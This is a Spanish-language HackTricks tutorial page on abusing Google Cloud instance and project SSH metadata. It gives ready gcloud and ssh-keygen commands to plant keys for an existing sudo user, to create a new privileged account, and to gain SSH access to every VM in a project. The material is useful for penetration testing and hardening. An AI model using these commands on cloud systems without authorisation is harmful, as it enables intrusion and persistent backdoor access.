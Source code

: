 # GCP - Agregar Metadatos SSH Personalizados

## GCP - Agregar Metadatos SSH Personalizados

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}

### Modificando los metadatos <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

La modificación de metadatos en una instancia podría llevar a **riesgos de seguridad significativos si un atacante obtiene los permisos necesarios**.

#### **Incorporación de claves SSH en metadatos personalizados**

En GCP, **los sistemas Linux** a menudo ejecutan scripts desde el [Entorno de Invitado de Python para Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Un componente crítico de esto es el [demonio de cuentas](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), que está diseñado para **verificar regularmente** el punto final de metadatos de la instancia en busca de **actualizaciones a las claves públicas SSH autorizadas**.

Por lo tanto, si un atacante puede modificar los metadatos personalizados, podría hacer que el demonio encuentre una nueva clave pública, que será procesada e **integrada en el sistema local**. La clave se añadirá al archivo `~/.ssh/authorized_keys` de un **usuario existente o potencialmente creando un nuevo usuario con privilegios de `sudo`**, dependiendo del formato de la clave. Y el atacante podrá comprometer el host.

#### **Agregar clave SSH a un usuario privilegiado existente**

1. **Examinar las claves SSH existentes en la instancia:**
*   Ejecuta el comando para describir la instancia y sus metadatos para localizar las claves SSH existentes. La sección relevante en la salida estará bajo `metadata`, específicamente la clave `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Presta atención al formato de las claves SSH: el nombre de usuario precede a la clave, separado por dos puntos.
2. **Preparar un archivo de texto para los metadatos de la clave SSH:**
* Guarda los detalles de los nombres de usuario y sus correspondientes claves SSH en un archivo de texto llamado `meta.txt`. Esto es esencial para preservar las claves existentes mientras se añaden nuevas.
3. **Generar una nueva clave SSH para el usuario objetivo (`alice` en este ejemplo):**
*   Usa el comando `ssh-keygen` para generar una nueva clave SSH, asegurándote de que el campo de comentario (`-C`) coincida con el nombre de usuario objetivo.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Añade la nueva clave pública a `meta.txt`, imitando el formato encontrado en los metadatos de la instancia.
4. **Actualizar los metadatos de la clave SSH de la instancia:**
*   Aplica los metadatos de clave SSH actualizados a la instancia usando el comando `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Acceder a la instancia usando la nueva clave SSH:**
*   Conéctate a la instancia con SSH usando la nueva clave, accediendo a la shell en el contexto del usuario objetivo (`alice` en este ejemplo).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Crear un nuevo usuario privilegiado y agregar una clave SSH**

Si no se encuentra un usuario interesante, es posible crear uno nuevo que se le otorgarán privilegios de `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### Claves SSH a nivel de proyecto <a href="#sshing-around" id="sshing-around"></a>

Es posible ampliar el alcance del acceso SSH a múltiples Máquinas Virtuales (VMs) en un entorno de nube al **aplicar claves SSH a nivel de proyecto**. Este enfoque permite el acceso SSH a cualquier instancia dentro del proyecto que no haya bloqueado explícitamente las claves SSH a nivel de proyecto. Aquí hay una guía resumida:

1. **Aplicar Claves SSH a Nivel de Proyecto:**
*   Utiliza el comando `gcloud compute project-info add-metadata` para agregar claves SSH desde `meta.txt` a los metadatos del proyecto. Esta acción asegura que las claves SSH sean reconocidas en todas las VMs del proyecto, a menos que una VM tenga habilitada la opción "Bloquear claves SSH a nivel de proyecto".

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH en Instancias Usando Claves a Nivel de Proyecto:**
* Con las claves SSH a nivel de proyecto en su lugar, puedes SSH en cualquier instancia dentro del proyecto. Las instancias que no bloquean las claves a nivel de proyecto aceptarán la clave SSH, otorgando acceso.
* Un método directo para SSH en una instancia es usar el comando `gcloud compute ssh [INSTANCE]`. Este comando utiliza tu nombre de usuario actual y las claves SSH establecidas a nivel de proyecto para intentar el acceso.

## Referencias

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
